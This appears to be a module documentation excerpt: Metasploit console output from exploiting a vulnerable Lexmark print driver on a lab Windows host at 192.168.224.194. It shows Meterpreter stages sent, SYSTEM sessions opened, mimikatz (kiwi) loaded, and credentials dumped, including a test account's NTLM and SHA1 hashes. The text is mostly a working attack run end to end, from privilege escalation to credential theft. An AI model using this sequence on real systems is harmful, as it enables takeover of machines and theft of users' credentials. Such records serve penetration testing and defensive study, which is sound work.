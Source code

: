 ```
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dGJvF...
[*] Deleting printer dGJvF
[*] Adding printer dGJvF...
[*] Sending stage (200262 bytes) to 192.168.224.194
[*] Sending stage (200262 bytes) to 192.168.224.194
[+] Deleted C:\Users\test\AppData\Local\Temp\AqMVx.dll
[*] Meterpreter session 2 opened (192.168.224.128:8877 -> 192.168.224.194:56007) at 2021-08-11 14:10:56 -0500
[*] Meterpreter session 3 opened (192.168.224.128:8877 -> 192.168.224.194:56016) at 2021-08-11 14:10:57 -0500
[*] Deleting printer dGJvF

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > load kiwi
Loading extension kiwi...c
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
test      DESKTOP-O7MJD36  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-O7MJD36$  WORKGROUP        (null)
test              DESKTOP-O7MJD36  (null)

kerberos credentials
====================

Username          Domain           Password
```
